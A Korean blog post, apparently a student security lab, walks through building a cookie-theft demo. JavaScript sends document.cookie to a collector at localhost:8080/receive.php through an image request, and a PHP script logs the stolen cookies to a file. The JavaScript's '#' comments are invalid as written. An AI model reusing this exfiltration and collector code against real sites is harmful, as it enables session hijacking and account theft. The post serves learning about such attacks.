 ```yaml
---
layout: single
title:  "4주차 쿠키 탈취 만들기"
categories: project
typora-root-url: ..\
author_profile: false
---
```


<br>

# <span style="background:#000000; color:#ffffff">1.쿠키 탈취 만들기</span>

<br>

http상태 200 으로 양호하고, user = normaltic 이라는 쿠키를 담고 있습니다. 이 쿠키를 탈취해봅시다.

![image-20240514195031752](/images/2024-05-14-Project6/image-20240514195031752.png)

## 1.1 Cookie Hijacking.html

<br>

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Security Test Page</title>
</head>
<body>
    <h1>Cookie Hijacking 테스트 하기</h1>
    <script src="Cookie Hijacking.js"></script>
</body>
</html>
```



## 1.2 Cookie Hijacking.js

<br>

```javascript
window.onload = function() {			# http요청이 완료되었을때, user=normaltic이라는 쿠키를 설정하고, 서버로 보내기
    document.cookie = "user=normaltic; path=/";
    sendDataToServer();  
}

function sendDataToServer() {			# 탈취할 url중 쿠키는 인코딩하여,이미지 파일을 불러옵니다.
    const cookieData = document.cookie;
    const attackURL = "http://localhost:8080/receive.php?cookie=";
    new Image().src = attackURL + encodeURIComponent(cookieData);
}
```

이미지 파일을 불러오는 이유 :  사실 이미지 파일이 없어서 이미지를 불러오는 건 중요한 게 아닙니다. 하지만 url로 요청하게 되면 동시에 get 방식으로 서버에 쿠키 정보를 넘겨주는 역할을 수행하기 때문에 이미지 파일을 불러오는 것 입니다.

## 1.1 receive.php

<br>

```php
<?php					# 쿠기의 정보를 cookies.txt 에 저장하기.
$cookie = $_GET['cookie'];
file_put_contents('cookies.txt', $cookie . "\n", FILE_APPEND);
						#(파일명, 쿠키정보 .줄바꿈 , 파일 뒤에 정보 계속 추가하기 )
```

